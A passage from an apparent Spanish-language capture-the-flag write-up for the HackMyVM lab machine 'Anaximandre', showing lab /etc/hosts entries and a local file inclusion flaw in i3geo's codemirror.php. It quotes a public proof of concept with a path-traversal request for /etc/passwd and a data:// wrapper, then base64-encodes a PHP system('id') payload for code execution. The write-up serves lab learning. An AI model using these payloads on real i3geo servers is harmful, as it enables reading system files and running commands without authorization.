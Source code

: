 Agregamos al /etc/hosts
```bash
❯ cat /etc/hosts
───────┬────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ ::1     localhost ip6-localhost ip6-loopback
   4   │ ff02::1     ip6-allnodes
   5   │ ff02::2     ip6-allrouters
   6   │ 
   7   │ 10.0.2.27 movie.hmv
   8   │ 10.0.2.33 anaximandre.hmv lovegeografia.anaximandre.hmv
───────┼────────────────────────────────────────────────────────────────────────────────
```

Ya en la pagina lo primero que hice fue probar ese LFI

![](img/Anaximandre/anax1.png)

Buscando sobre i3geo encuentro un github https://github.com/wagnerdracha/ProofOfConcept/blob/main/i3geo/i3geo_proof_of_concept.txt

Que justo prueba el mismo LFI
```txt
To exploit vulnerability:
- http://.../i3geo/exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd
- http://.../i3geo/exemplos/codemirror.php?&pagina=data://text/plain;base64,SEFDS0VE
```
Con cyberchef hago el cambio a base64
``<?php system('id'); ?>`` --- ``PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==``
